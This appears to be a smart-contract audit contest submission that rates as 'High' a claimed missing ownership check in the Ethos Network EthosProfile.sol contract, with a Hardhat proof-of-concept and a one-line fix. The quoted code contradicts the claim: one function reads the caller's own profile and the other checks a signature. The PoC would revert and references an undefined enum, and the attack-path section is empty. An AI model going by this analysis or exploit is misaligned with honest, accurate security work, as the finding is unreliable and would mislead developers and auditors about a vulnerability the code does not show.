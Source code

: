 Passive Misty Pike

High

# Insufficient validation on profile ownership in `EthosProfile.sol` will lead to profile hijacking or address compromisation

### Summary

The `EthosProfile` contract contains a vulnerability due to insufficient ownership validation for functions that modify profile data. The contract does not fully restrict actions to the authorized owner of a profile, which enables malicious users to manipulate profiles not owned by them. Specifically, functions like `deleteAddressAtIndex` and `registerAddress` do not properly check if the caller is the profile owner. Exploiting this flaw allows unauthorized profile modifications and can lead to profile hijacking or address compromisation.

### Root Cause

The `EthosProfile` contract manages user profiles, allowing users to link multiple wallet addresses to a single profile. However, the `deleteAddressAtIndex` and `registerAddress` functions lack sufficient checks to confirm if the caller is the actual owner of the profile being modified. In both cases, an attacker could manipulate another user’s profile by calling these functions with arbitrary profile IDs.

Vulnerable code:
1. `deleteAddressAtIndex` does not check that the caller owns the profile:
https://github.com/sherlock-audit/2024-10-ethos-network/blob/main/ethos/packages/contracts/contracts/EthosProfile.sol#L415-L438
```solidity
function deleteAddressAtIndex(uint256 addressIndex) external whenNotPaused {
    uint256 profileId = profileIdByAddress[msg.sender];
    // No check if msg.sender is indeed the owner of profileId
    (bool verified, bool archived, bool mock) = profileStatusById(profileId);
    if (!verified) {
        revert ProfileNotFoundForAddress(msg.sender);
    }
    if (archived || mock) {
        revert ProfileAccess(profileId, "Profile is archived");
    }
    address[] storage addresses = profiles[profileId].addresses;
    address[] storage removedAddresses = profiles[profileId].removedAddresses;
    if (addresses.length <= addressIndex) {
        revert InvalidIndex();
    }
    address addressStr = addresses[addressIndex];
    isAddressCompromised[addressStr] = true;
    _addressShouldDifferFromSender(addressStr);
    _deleteAddressAtIndexFromArray(addressIndex, addresses, removedAddresses);
    emit AddressClaim(profileId, addressStr, AddressClaimStatus.Unclaimed);
}
```
2. `registerAddress` lacks validation for profile ownership:
https://github.com/sherlock-audit/2024-10-ethos-network/blob/main/ethos/packages/contracts/contracts/EthosProfile.sol#L373-L409
```solidity
function registerAddress(
    address addressStr,
    uint256 profileId,
    uint256 randValue,
    bytes calldata signature
) external whenNotPaused onlyNonZeroAddress(addressStr) {
    (bool verified, bool archived, bool mock) = profileStatusById(profileId);
    if (!verified) {
        revert ProfileNotFound(profileId);
    }
    if (archived || mock) {
        revert ProfileAccess(profileId, "Profile is archived");
    }
    // Missing check to verify msg.sender is the owner of profileId
    if (profileIdByAddress[addressStr] != profileId && isAddressCompromised[addressStr]) {
        revert AddressCompromised(addressStr);
    }
    (bool addressAlreadyRegistered, , , uint256 registeredProfileId) = profileStatusByAddress(addressStr);
    if (addressAlreadyRegistered && registeredProfileId != profileId) {
        revert ProfileExistsForAddress(addressStr);
    }
    validateAndSaveSignature(_keccakForRegisterAddress(addressStr, profileId, randValue), signature);
    profiles[profileId].addresses.push(addressStr);
    profileIdByAddress[addressStr] = profileId;
    checkMaxAddresses(profileId);
    emit AddressClaim(profileId, addressStr, AddressClaimStatus.Claimed);
}
```


### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

_No response_

### Impact

Exploitation of this vulnerability allows a malicious actor to tamper with other users' profiles, potentially removing or registering unauthorized addresses. This compromises the integrity of user identities within the Ethos Network and poses a risk of identity theft and loss of trust in the protocol.

### PoC

An attacker can hijack another user’s profile and manipulate its addresses. To demonstrate, let's use Hardhat to deploy the contract and show how a malicious user can exploit this flaw.
```javascript
const { ethers } = require("hardhat");
const { expect } = require("chai");

describe("EthosProfile Exploit Test", function () {
    it("Should allow unauthorized address deletion by a malicious user", async function () {
        const [deployer, user, attacker] = await ethers.getSigners();
        const EthosProfile = await ethers.getContractFactory("EthosProfile");

        // Deploy EthosProfile
        const ethosProfile = await EthosProfile.deploy();
        await ethosProfile.deployed();

        // Initialize the contract
        await ethosProfile.initialize(deployer.address, deployer.address, deployer.address, deployer.address, deployer.address);

        // User creates a profile
        await ethosProfile.connect(user).createProfile(1);
        const userId = await ethosProfile.profileIdByAddress(user.address);

        // User registers an address
        await ethosProfile.connect(user).registerAddress(user.address, userId, 12345, "0x");

        // Attacker tries to delete user’s registered address
        await expect(ethosProfile.connect(attacker).deleteAddressAtIndex(0))
            .to.emit(ethosProfile, "AddressClaim")
            .withArgs(userId, user.address, AddressClaimStatus.Unclaimed);
    });
});
```

### Mitigation

Add proper ownership validation checks to sensitive functions, specifically ensuring that the caller is the owner of the profile before allowing address manipulations.
```solidity
require(msg.sender == profiles[profileId].owner, "Caller is not the profile owner");
```